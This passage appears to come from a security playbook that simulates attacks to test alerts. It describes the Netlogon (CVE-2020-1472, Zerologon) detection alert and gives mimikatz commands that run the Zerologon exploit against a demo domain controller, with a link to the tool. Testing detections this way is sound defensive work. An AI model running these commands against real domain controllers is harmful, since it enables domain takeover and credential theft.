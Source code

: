 ## Suspected Netlogon privilege elevation attempt (CVE-2020-1472 exploitation)

For details about this alert, see [Suspected Netlogon privilege elevation attempt (CVE-2020-1472 exploitation) (external ID 2411)](compromised-credentials-alerts.md#suspected-netlogon-privilege-elevation-attempt-cve-2020-1472-exploitation-external-id-2411).
  
The alert is triggered if an attacker attempts to establish a vulnerable Netlogon secure channel connection to a DC, using the Netlogon Remote Protocol (MS-NRPC), also known as Netlogon Elevation of Privilege Vulnerability.

From a command line on a workstation, run with a local admin account:

```cmd
mimikatz # privilege::debug 
mimikatz # lsadump::zerologon /server:msdemo-DC01.msdemo.local /account:msdemo-DC01$ /exploit  
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

![Suspected Netlogon privilege elevation attempt alert details.](media/playbooks/netlogon-privilege-elevation-details.png)  

## Suspicious network connection over Encrypting File System Remote Protocol
